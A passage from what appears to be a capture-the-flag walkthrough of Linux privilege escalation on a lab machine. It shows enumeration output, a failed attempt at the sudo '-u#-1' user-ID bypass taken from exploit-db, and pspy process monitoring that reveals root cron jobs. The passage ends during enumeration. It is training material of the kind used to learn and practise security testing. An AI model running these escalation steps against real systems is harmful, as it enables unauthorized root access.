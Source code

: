 ```ruby
╔══════════╣ Sudo version
╚ https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/index.html#sudo-version                                                            
Sudo version 1.8.27 



╔══════════╣ Users with console
root:x:0:0:root:/root:/bin/bash                                              
thomas:x:1000:1000:thomas,,,:/home/thomas:/bin/bash
```

Initially, I noticed that the `sudo` version is outdated.

I tried PoC found from [exploit-db](https://www.exploit-db.com/exploits/47502), but it was not working.

```bash
www-data@meta:/tmp$ sudo -u#-1 /bin/bash
sudo -u#-1 /bin/bash                                                         
sudo: unknown user: #-1                                                      
sudo: unable to initialize policy plugin
```

Instead, I uploaded `pspy64` to observe more details.

```bash
www-data@meta:/tmp$ ./pspy64
./pspy64
pspy - version: v1.2.1 - Commit SHA: f9e6a1590a4312b9faa093d8dc84e19567977a6d


     ██▓███    ██████  ██▓███ ▓██   ██▓
    ▓██░  ██▒▒██    ▒ ▓██░  ██▒▒██  ██▒
    ▓██░ ██▓▒░ ▓██▄   ▓██░ ██▓▒ ▒██ ██░
    ▒██▄█▓▒ ▒  ▒   ██▒▒██▄█▓▒ ▒ ░ ▐██▓░
    ▒██▒ ░  ░▒██████▒▒▒██▒ ░  ░ ░ ██▒▓░
    ▒▓▒░ ░  ░▒ ▒▓▒ ▒ ░▒▓▒░ ░  ░  ██▒▒▒ 
    ░▒ ░     ░ ░▒  ░ ░░▒ ░     ▓██ ░▒░ 
    ░░       ░  ░  ░  ░░       ▒ ▒ ░░  
                   ░           ░ ░     
                               ░ ░     

Config: Printing events (colored=true): processes=true | file-system-events=false ||| Scanning for processes every 100ms and on inotify events ||| Watching directories: [/usr /tmp /etc /home /var /opt] (recursive) | [] (non-recursive)
Draining file system events due to startup...

...SNIP...

2025/03/11 17:56:01 CMD: UID=0     PID=19801  | /usr/sbin/CRON -f 
2025/03/11 17:56:01 CMD: UID=0     PID=19802  | cp -rp /root/conf/config_neofetch.conf /home/thomas/.config/neofetch/config.conf
2025/03/11 17:56:01 CMD: UID=0     PID=19803  | /usr/sbin/CRON -f 
2025/03/11 17:56:02 CMD: UID=1000  PID=19804  | 
2025/03/11 17:56:02 CMD: UID=1000  PID=19805  | /bin/bash /usr/local/bin/convert_images.sh
2025/03/11 17:56:02 CMD: UID=0     PID=19806  | /bin/sh -c rm /tmp/* 
2025/03/11 17:56:02 CMD: UID=1000  PID=19807  | /bin/bash /usr/local/bin/convert_images.sh  
```
